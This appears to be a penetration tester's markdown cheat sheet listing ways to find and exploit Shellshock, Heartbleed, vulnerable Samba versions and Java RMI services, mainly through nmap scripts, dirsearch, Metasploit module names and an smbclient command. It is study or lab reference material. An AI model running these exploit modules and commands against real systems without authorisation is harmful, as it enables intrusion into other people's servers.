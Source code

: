 ### Shellshock
* vulnerable through cgi paths
* `./dirsearch.py -u <URL> -e cgi -r`
* usually exploited through *User-Agent* HTTP header
`--script http-shellshock` - nmap script

### Heartbleed
* `--script ssl-heartbleed` - nmap vuln script
* Metasploit `use auxiliary/scanner/ssl/openssl_heartbleed` - exploitation
    * `show actions` - additional actions for the selected module

### Samba
* below 4.6.4 contains vulns that allow RCE
__Username Map Script
* msf> `use exploit/multi/samba/usermap_script`
__Samba Symlink Directory Traversal__
1. msf> `auxiliary/admin/smb/samba_symlink_traversal`
2. `smbclient \\\\<IP>\\<folder> -N`
3. smb> `cd rootfs` 

### Java RMI
* Port __1099/TCP__
* impacts default configurations of *RMI Registry* and *RMI Activation Services*
* allows loading of arbitrary Java classess form attacker-defined URL
* `nmap -sV -p 1099` -> service identified by __GNU Classpatch Registry Fingerprint__
* msf> `exploit/multi/misc/java_rmi_server`
